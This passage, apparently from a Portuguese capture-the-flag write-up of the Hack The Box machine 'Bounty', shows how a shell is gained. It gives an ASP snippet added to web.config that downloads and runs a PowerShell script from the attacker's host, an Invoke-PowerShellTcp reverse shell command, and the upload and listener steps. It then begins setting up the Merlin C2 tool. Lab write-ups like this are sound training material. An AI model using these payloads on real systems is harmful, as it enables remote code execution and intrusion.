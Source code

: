 > Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.119 -Port 443

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_nish4.png)

Adicionamos ao final do web.config para ele executar

<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.16.116/shell.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_nish5.png)

Ligamos o Python Simple HTTP Server e o `rlwrap` nc na porta 443

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_nish6.png)

Upamos o web.config no transfer.aspx

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_nish7.png)

Executamos ele 

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_nish8.png)

Ganhamos um shell na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_nish9.png)

#### Através do Merlin

Merlin é uma ferramenta de C2 muito boa, as vezes um pouco complicada de se utilizar, mas aqui iremos tentar abordar da maneira de mais simples entendimento

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_merlin.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_merlin1.png)

Após baixar ele na máquina (git clone) iremos utilizá-lo

Neste caso baixamos a release dele na versão 0.6.0 (Nesses casos eu prefiro baixar a release pq ai não preciso compilar ele na minha máquina)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_merlinrel.png)

Primeiro passo para utilizá-lo da maneira correta é configurar uma chave SSL na pasta /data/x509

> openssl req -x509 -newkey rsa:4096 -sha256 -nodes -keyout server.key -out server.crt -subj  "/CN=bounty"  -days 7

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_merlin2.png)

